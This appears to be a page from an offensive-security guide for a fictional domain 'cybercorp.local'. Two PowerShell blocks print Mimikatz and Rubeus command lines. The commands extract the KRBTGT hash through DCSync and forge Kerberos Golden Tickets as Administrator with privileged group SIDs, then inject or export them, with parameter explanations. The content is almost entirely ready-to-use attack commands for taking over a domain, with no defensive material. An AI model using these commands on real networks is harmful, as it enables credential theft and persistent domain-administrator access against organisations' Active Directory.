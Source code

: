 #### **Mimikatz Golden Ticket Creation**
```powershell
# Mimikatz Golden Ticket creation
Write-Host "=== MIMIKATZ GOLDEN TICKET CREATION ===" -ForegroundColor Green

Write-Host "Golden Ticket Creation Commands:" -ForegroundColor Yellow

Write-Host "`n1. Extract KRBTGT Hash:" -ForegroundColor Cyan
Write-Host "   mimikatz # lsadump::dcsync /user:krbtgt /domain:cybercorp.local" -ForegroundColor White

Write-Host "`n2. Create Golden Ticket:" -ForegroundColor Cyan
Write-Host "   mimikatz # kerberos::golden /user:Administrator /domain:cybercorp.local /sid:S-1-5-21-1234567890-1234567890-1234567890 /krbtgt:KRBTGT_HASH /ptt" -ForegroundColor White

Write-Host "`n3. Alternative Golden Ticket:" -ForegroundColor Cyan
Write-Host "   mimikatz # kerberos::golden /user:Administrator /domain:cybercorp.local /sid:S-1-5-21-1234567890-1234567890-1234567890 /krbtgt:KRBTGT_HASH /groups:512,513,518,519,520 /ptt" -ForegroundColor White

Write-Host "`n4. Export Golden Ticket:" -ForegroundColor Cyan
Write-Host "   mimikatz # kerberos::golden /user:Administrator /domain:cybercorp.local /sid:S-1-5-21-1234567890-1234567890-1234567890 /krbtgt:KRBTGT_HASH /ticket:golden.kirbi" -ForegroundColor White

Write-Host "`nParameter Explanation:" -ForegroundColor Yellow
Write-Host "  /user: Target username for impersonation" -ForegroundColor Gray
Write-Host "  /domain: Target domain name" -ForegroundColor Gray
Write-Host "  /sid: Domain SID" -ForegroundColor Gray
Write-Host "  /krbtgt: KRBTGT account NTLM hash" -ForegroundColor Gray
Write-Host "  /groups: Additional group SIDs (optional)" -ForegroundColor Gray
Write-Host "  /ptt: Pass the ticket to current session" -ForegroundColor Gray
Write-Host "  /ticket: Export ticket to file" -ForegroundColor Gray
```

#### **Rubeus Golden Ticket Creation**
```powershell
# Rubeus Golden Ticket creation
Write-Host "=== RUBEUS GOLDEN TICKET CREATION ===" -ForegroundColor Green

Write-Host "Rubeus Golden Ticket Commands:" -ForegroundColor Yellow

Write-Host "`n1. Create Golden Ticket:" -ForegroundColor Cyan
Write-Host "   Rubeus.exe golden /rc4:KRBTGT_HASH /domain:cybercorp.local /sid:S-1-5-21-1234567890-1234567890-1234567890 /user:Administrator /ptt" -ForegroundColor White

Write-Host "`n2. Create Golden Ticket with Groups:" -ForegroundColor Cyan
Write-Host "   Rubeus.exe golden /rc4:KRBTGT_HASH /domain:cybercorp.local /sid:S-1-5-21-1234567890-1234567890-1234567890 /user:Administrator /groups:512,513,518,519,520 /ptt" -ForegroundColor White

Write-Host "`n3. Export Golden Ticket:" -ForegroundColor Cyan
Write-Host "   Rubeus.exe golden /rc4:KRBTGT_HASH /domain:cybercorp.local /sid:S-1-5-21-1234567890-1234567890-1234567890 /user:Administrator /outfile:golden.kirbi" -ForegroundColor White

Write-Host "`n4. Use Exported Ticket:" -ForegroundColor Cyan
Write-Host "   Rubeus.exe ptt /ticket:golden.kirbi" -ForegroundColor White

Write-Host "`nParameter Explanation:" -ForegroundColor Yellow
Write-Host "  /rc4: KRBTGT account NTLM hash" -ForegroundColor Gray
Write-Host "  /domain: Target domain name" -ForegroundColor Gray
Write-Host "  /sid: Domain SID" -ForegroundColor Gray
Write-Host "  /user: Target username for impersonation" -ForegroundColor Gray
Write-Host "  /groups: Additional group SIDs (optional)" -ForegroundColor Gray
Write-Host "  /ptt: Pass the ticket to current session" -ForegroundColor Gray
Write-Host "  /outfile: Export ticket to file" -ForegroundColor Gray
```